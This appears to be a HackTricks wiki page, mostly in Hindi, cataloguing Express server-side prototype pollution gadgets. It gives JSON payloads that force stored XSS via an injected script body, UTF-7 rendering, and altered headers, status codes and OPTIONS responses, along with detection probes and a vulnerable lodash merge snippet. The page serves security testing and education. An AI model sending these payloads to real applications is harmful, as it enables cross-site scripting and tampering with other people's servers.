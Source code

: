 # Express Prototype Pollution Gadgets

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Serve XSS responses

**अधिक विवरण के लिए** [**मूल शोध पर एक नज़र डालें**](https://portswigger.net/research/server-side-prototype-pollution)

### JSON सामग्री प्रकार को HTML में बदलें

एक Express ऐप में जो **JSON सामग्री प्रकार प्रतिक्रिया** का उपयोग कर रहा है और एक JSON को दर्शा रहा है:
```javascript
app.use(bodyParser.json({type: 'application/json'}));
app.post('/', function(req, res){
_.merge({}, req.body);
res.send(req.body);
});
```
इन मामलों में XSS सामान्यतः JSON सामग्री प्रकार के साथ संभव नहीं है। हालाँकि, प्रोटोटाइप प्रदूषण के साथ हम **Express को HTML प्रतिक्रिया देने के लिए भ्रमित कर सकते हैं।** यह भेद्यता इस पर निर्भर करती है कि एप्लिकेशन **`res.send(obj)`** का उपयोग कर रहा है और एप्लिकेशन/json सामग्री प्रकार के साथ बॉडी पार्सर का उपयोग कर रहा है।
```json
{"__proto__":{"_body":true,"body":"<script>evil()"}}
```
**`body`** और **`_body`** प्रॉपर्टीज़ को **polluting** करके, **Express को HTML कंटेंट टाइप** सर्व करने और `_body` प्रॉपर्टी को दर्शाने के लिए मजबूर किया जा सकता है, जिससे स्टोर्ड XSS होता है।

### Render UTF7

यह संभव है कि express **UTF-7 कंटेंट को** रेंडर करे:
```json
{"__proto__":{"content-type": "application/json; charset=utf-7"}}
```
## Safe Scanning Techinques

### JSON spaces

निम्नलिखित PP JSON के अंदर विशेषताओं को एक अतिरिक्त स्थान देने के लिए है जो कार्यक्षमता को बाधित नहीं करेगा:
```json
{"__proto__":{"json spaces": " "}}
```
फिर एक परावर्तित JSON इस तरह दिखेगा:
```json
{"foo":  "bar"} -- Note the extra space
```
### Exposed Headers

निम्नलिखित PP गैजेट सर्वर को HTTP हेडर भेजने के लिए मजबूर करेगा: **`Access-Control-Expose_headers: foo`**
```json
{"__proto__":{"exposedHeaders":["foo"]}}
```
यह **CORS मॉड्यूल को स्थापित करने की आवश्यकता है**

### **OPTIONS विधि**

निम्नलिखित पेलोड के साथ, **OPTIONS प्रतिक्रिया से एक विधि को छिपाना संभव है**:
```javascript
// Original reponse: POST,GET,HEAD

// Payload:
{"__proto__":{"head":true}}

//New response: POST;GET
```
### **स्थिति**

**वापसी स्थिति कोड** को निम्नलिखित PP पेलोड का उपयोग करके बदलना संभव है:
```json
{"__proto__":{"status":510}}
```
### Error

जब आप एक प्राइमिटिव जैसे कि स्ट्रिंग के साथ एक प्रोटोटाइप को असाइन करते हैं, तो यह **कोई ऑपरेशन नहीं करता क्योंकि प्रोटोटाइप एक ऑब्जेक्ट होना चाहिए**। यदि आप `Object.prototype` को स्वयं एक प्रोटोटाइप ऑब्जेक्ट असाइन करने का प्रयास करते हैं, तो यह **एक अपवाद फेंकेगा**। हम इन दो व्यवहारों का उपयोग **यह पता लगाने के लिए कर सकते हैं कि क्या प्रोटोटाइप प्रदूषण सफल रहा**:
```javascript
({}).__proto__.__proto__={}//throws type exception
({}).__proto__.__proto__="x"//no-op does not throw exception
```
### Reflected Value

जब एक एप्लिकेशन अपनी प्रतिक्रिया में एक ऑब्जेक्ट शामिल करता है, तो `__proto__` के साथ एक **असामान्य नाम वाला एट्रिब्यूट** बनाना जानकारीपूर्ण हो सकता है। विशेष रूप से, यदि **केवल असामान्य एट्रिब्यूट प्रतिक्रिया में लौटाया जाता है**, तो यह एप्लिकेशन की कमजोरी को इंगित कर सकता है:
```json
{"unusualName":"value","__proto__":"test"}
```
इसके अलावा, उन परिदृश्यों में जहां Lodash जैसी लाइब्रेरी का उपयोग किया जाता है, प्रोटोटाइप प्रदूषण (PP) के माध्यम से और सीधे ऑब्जेक्ट के अंदर एक प्रॉपर्टी सेट करना एक और निदान दृष्टिकोण प्रदान करता है। यदि ऐसी प्रॉपर्टी प्रतिक्रिया से छोड़ी जाती है, तो यह सुझाव देता है कि Lodash लक्ष्य ऑब्जेक्ट में प्रॉपर्टी के अस्तित्व की पुष्टि कर रहा है इससे पहले कि वह मर्ज करे:
```javascript
{"__proto__":{"a":"value1"},"a":"value2","b":"value3"}
// If 'b' is the only property reflected, this indicates prototype pollution in Lodash
```
## Misc

### Allow Dots

Express में एक विकल्प है जो आपको **क्वेरी स्ट्रिंग पैरामीटर से ऑब्जेक्ट बनाने** की अनुमति देता है।\
आप निश्चित रूप से इसका उपयोग एक बग **चेन** में **प्रोटोटाइप प्रदूषण भेद्यता** का लाभ उठाने के लिए कर सकते हैं।
```json
{"__proto__":{"allowDots":true}}
```
**`?foo.bar=baz` नोड में एक ऑब्जेक्ट बनाता है।**

## संदर्भ

* [https://portswigger.net/research/server-side-prototype-pollution](https://portswigger.net/research/server-side-prototype-pollution)


{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें। 

</details>
{% endhint %}
